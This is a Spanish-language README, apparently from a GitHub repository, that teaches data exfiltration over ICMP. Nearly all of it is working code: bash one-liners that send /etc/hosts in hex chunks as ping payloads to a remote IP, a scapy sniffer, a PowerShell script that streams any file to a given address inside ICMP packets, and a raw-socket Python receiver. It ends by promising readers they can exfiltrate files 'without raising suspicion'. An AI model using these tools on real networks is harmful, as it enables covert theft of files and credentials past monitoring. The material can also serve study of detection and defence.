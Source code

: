 # ICMP-Exfil

# 📡 Exfiltración de Datos mediante ICMP

Este documento explora la técnica de exfiltración de datos mediante paquetes ICMP, utilizando herramientas como `tshark`, `ping`, `xxd` y scripts en Python y PowerShell.

---

## 📌 Conversión de Datos a Hexadecimal
![Pasted image 20250119202558](https://github.com/user-attachments/assets/34075ca9-cb8e-4ea8-8be8-e5e4be240440)


Convertimos una cadena de texto en su representación hexadecimal con:

```bash
echo -n "hola mundo" | xxd -p
```

📌 Usamos `-n` para evitar el salto de línea y `-p` para obtener solo la cadena en hexadecimal.

---

## 🛠️ Escucha de Tráfico ICMP con `tshark`

```bash
tshark -i lo -Y "icmp" -T fields -e data.data 2>/dev/null
```

---

## 📡 Envío de Datos mediante `ping`

Ejecutamos un ping con una carga útil en hexadecimal:

```bash
ping -c 1 192.168.1.149 -p 686f6c61206d756e646f
```

📌 El payload se pasa en formato hexadecimal.

---

## 🔄 Decodificación de la Respuesta
![Pasted image 20250119203418](https://github.com/user-attachments/assets/638d4da3-fbb6-41e6-ace4-00f217c24783)

```bash
echo "756e646f686f6c61206d756e646f686f6c61206d..." | xxd -ps -r
```

📌 Se convierte la respuesta hexadecimal de vuelta a texto.

---

## 📦 Fragmentación de Paquetes

Convertimos el contenido de `/etc/hosts` a hexadecimal en fragmentos de 4 bytes:

```bash
cat /etc/hosts | xxd -p -c 4 | while read line; do ping -c1 192.168.1.149 -p $line; done
```

---

## 🤖 Automatización con Python

### `Sniffer.py`

```python
#!/usr/bin/env python3
from scapy.all import *
import signal, sys

def def_handler(sig, frame):
    print("\n[!] Saliendo del Programa")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def data_parser(packet):
    if packet.haslayer(ICMP) and packet[ICMP].type == 8:
        data = packet[ICMP].load[-4:].decode("utf-8")
        print(data, end='', flush=True)

if __name__ == "__main__":
    sniff(iface="lo", prn=data_parser)
```

---

## ⚡ Ping Funcional con Decodificación

```bash
cat /etc/hosts | xxd -p -c 4 | while read line; do ping -c 1 127.0.0.1 -s 4 -p "$line"; done
```

Capturamos los paquetes:

```bash
tshark -i lo -Y "icmp" -T fields -e data.data > data.txt
```

Decodificamos los datos:

```bash
awk 'NR % 2 == 1' data.txt | xxd -ps -r
```

---

## 🖥️ Script de Exfiltración en PowerShell

### `ICMP-Sender.ps1`

```powershell
param (
    [string]$IPAddress,
    [string]$inFile
)

$ICMPClient = New-Object System.Net.NetworkInformation.Ping
$PingOptions = New-Object System.Net.NetworkInformation.PingOptions
$PingOptions.DontFragment = $true
[int]$bufSize = 1472

if (-not (Test-Path $inFile)) {
    Write-Error "El archivo especificado no existe: $inFile"
    exit 1
}

$stream = [System.IO.File]::OpenRead($inFile)
$chunkNum = 0
$TotalChunks = [math]::floor($stream.Length / $bufSize)
$barr = New-Object byte[] $bufSize

$sendbytes = ([text.encoding]::ASCII).GetBytes("BOFAwesomefile.txt")
$ICMPClient.Send($IPAddress, 10, $sendbytes, $PingOptions) | Out-Null

while ($bytesRead = $stream.Read($barr, 0, $bufSize)) {
    $ICMPClient.Send($IPAddress, 10, $barr, $PingOptions) | Out-Null
    Start-Sleep -Seconds 1
    Write-Output "Hecho con $chunkNum de $TotalChunks fragmentos."
    $chunkNum++
}

$sendbytes = ([text.encoding]::ASCII).GetBytes("EOF")
$ICMPClient.Send($IPAddress, 10, $sendbytes, $PingOptions) | Out-Null
$stream.Dispose()

Write-Output "Transferencia del archivo completada."
```

---

## 🎯 Recepción de Datos con Python

```python
import socket

def listen():
    s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
    s.setsockopt(socket.SOL_IP, socket.IP_HDRINCL, 1)
    with open('archivoExfiltrado.txt','wb') as catch:
        print("Iniciado el servidor de exfiltración ICMP...")
        while True:
            data, addr = s.recvfrom(1508)
            if b'BOF' in data:
                continue
            if b'EOF' in data:
                catch.write(data[-1472:-4])
                break
            catch.write(data[-1472:])
    print("Archivo recibido!")

listen()
```

---

## 📷 Capturas de Pantalla

1️- Escuchando paquetes con `tshark`
![Pasted image 20250124171832](https://github.com/user-attachments/assets/877a633e-d0e0-48c4-a576-2b920038049c)

2️- Enviando paquetes ICMP con el script PowerShell
![Pasted image 20250124172451](https://github.com/user-attachments/assets/fb08a12f-a0c7-4196-a140-75a199399e8e)
![Pasted image 20250124172621](https://github.com/user-attachments/assets/760c2279-a543-4a0d-96d6-dd0d50832871)
![Pasted image 20250124172727](https://github.com/user-attachments/assets/939fc008-103b-4f99-957f-f2bd9543c61a)

3️- Recibiendo y reconstruyendo el archivo
![Pasted image 20250124172923](https://github.com/user-attachments/assets/b7b0ac02-bbb3-4397-8a21-a371ad122703)

4️- Archivo exfiltrado correctamente
![Pasted image 20250124173108](https://github.com/user-attachments/assets/5bcbae13-fe90-4196-bc9f-f04c9870ced2)

📌 ¡Listo! Ahora puedes exfiltrar archivos a través de ICMP sin levantar sospechas 🚀
